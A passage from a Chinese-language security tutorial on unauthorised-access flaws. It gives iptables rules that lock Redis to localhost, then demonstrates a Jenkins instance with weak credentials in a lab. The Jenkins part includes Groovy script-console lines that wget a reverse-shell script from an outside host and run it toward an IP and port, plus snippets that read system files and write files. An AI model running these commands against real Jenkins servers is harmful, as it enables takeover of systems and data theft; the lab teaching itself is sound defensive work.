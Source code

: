 7. 设置防火墙策略  
```
// accept
# iptables -A INPUT -p tcp -s 127.0.0.1 --dport 6379 -j ACCEPT
# iptables -A INPUT -p udp -s 127.0.0.1 --dport 6379 -j ACCEPT

// drop
# iptables -I INPUT -p tcp --dport 6379 -j DROP
# iptables -I INPUT -p udp --dport 6379 -j DROP

// 保存规则并重启 iptables
# service iptables save
```
# service iptables restart

【  注意！】此处防火墙策略进攻参考，具体按照业务情况来配置。
### 【参考连接】
>https://www.freebuf.com/column/158065.html
>https://www.freebuf.com/column/170904.html
## Jenkins 
###    【漏洞简介】
enkins是一个功能强大的应用程序，允许持续集成和持续交付项目，无论用的是什么平台。这是一个免费的源代码，可以处理任何类型的构建或持续集成。集成Jenkins可以用于一些测试和部署技术。Jenkins是一种软件允许持续集成。
但是，jenkins 未设置帐号密码，或者使用了弱帐号密码就会造成未授权访问
###    【攻击演示】
使用浏览器访问[http://靶机IP:8080](http://靶机IP:8080)
因为我靶机设置的是弱口令，所以使用admin,admin可以登录
![图片](https://uploader.shimo.im/f/9HccWqcgPF0jWJ3h.png!thumbnail)
当然，可以反弹shell来控制靶机服务器。

* 直接使用wget下载反弹shell的脚本：
```
println "wget http://www.waitalone.cn/tools/back.py -P /tmp/".execute().text

println "python /tmp/back.py 10.1.1.111 8080".execute().text
```

* 多种方式拿shell
```
Groovy I/O 文件读写
  
读文件
new File("/tmp/back.py").getText();
new File("c:/windows/win.ini").getText();
  
//eachLine -- 打开和读取文件的每一行
new File("/tmp/back.py").eachLine { 
println it;
}
  
//readLines
lineList = new File("/tmp/back.py").readLines();
lineList.each { 
println it.toUpperCase();
}
  
write轻轻松松写文件
new File("/tmp/1.php").write('Hello SecPulse');
  
多行写入
```